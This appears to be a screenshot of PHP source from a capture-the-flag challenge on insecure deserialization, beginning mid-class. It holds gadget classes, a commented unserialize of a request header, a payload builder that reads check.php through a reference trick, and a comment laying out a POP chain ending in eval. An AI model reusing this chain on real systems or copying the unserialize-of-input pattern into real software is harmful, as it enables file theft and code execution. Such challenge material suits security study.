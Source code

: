 ```php
        }
    }


    public function __invoke(){
        $a_a = $this -> a;
        echo "\$a_a\$";
    }
}

class gBoBg{
    public $name;
    public $file;
    public $coos;
    private $eeee="-_-";
    public function __toString(){
        if(isset($this->name)){
            $a = new $this->coos($this->file);
            echo $a;
        }else if(!isset($this -> file)){
            return $this->coos->name;
        }else{
            $aa = $this->coos;
            $bb = $this->file;
            return $aa();
        }
    }
}   

class w_wuw_w{
    public $aaa;
    public $key;
    public $file;
    public function __wakeup(){
        if(!preg_match("/php|63|\*|\?/i",$this -> key)){
            $this->key = file_get_contents($this -> file);
        }else{
            echo "不行哦";
        }
    }

    public function __destruct(){
        echo $this->aaa;
    }

    public function __invoke(){
        $this -> aaa = clone new EeE;
    }
}

// $_ip = $_SERVER["HTTP_AAAAAA"];
// unserialize($_ip);
$a=new w_wuw_w();
$a->file="check.php";
$a->aaa=&$a->key;
echo(serialize($a));

//eval pop:EeE->__wakeup()=>gBoBg->__toString()=>w_wuw_w->__invoke()=>EeE->__clone()=>cycycycy->aaa()->eval()

//file_get_contents('check.php'):
```
